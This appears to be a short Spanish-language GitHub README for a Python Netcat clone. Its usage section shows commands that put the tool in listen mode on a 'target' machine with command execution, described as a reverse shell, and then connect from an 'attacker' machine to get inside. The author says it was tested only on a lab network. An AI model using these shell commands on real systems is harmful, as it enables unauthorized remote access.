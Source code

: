 # Network_Tools
Herramientas que puedes utilizar para el analisis de redes 

Modo de ejecución:
  (Por el momento solo lo he probado en ordenadores dentro de la red de mi laboratorio)
  En la máquina objetivo:
    >> python3 Netcat.py -t @IP_Target -p @Puerto_Ataque -l (Queremos ponerlo en modo listen) -c (Queremos ejecutarle comandos como revershell)
    Quedamos a la espera de ver que aparece en nuestra terminal

  En la máquia atacante:
    >> Python3 Netcat.py -t @IP_Target -p @Puerto_Aaque 
    Una vez ejecutado el programa queda a la espera de ordenes
    >> CTRL-D
    >> (Nos dará el mensaje de bienvenida que haya programado y estamos dentro, momento del ataque)
  
![imagen](https://user-images.githubusercontent.com/96150730/192136616-251edabd-2afb-4d57-a691-09e03d7359e7.png)
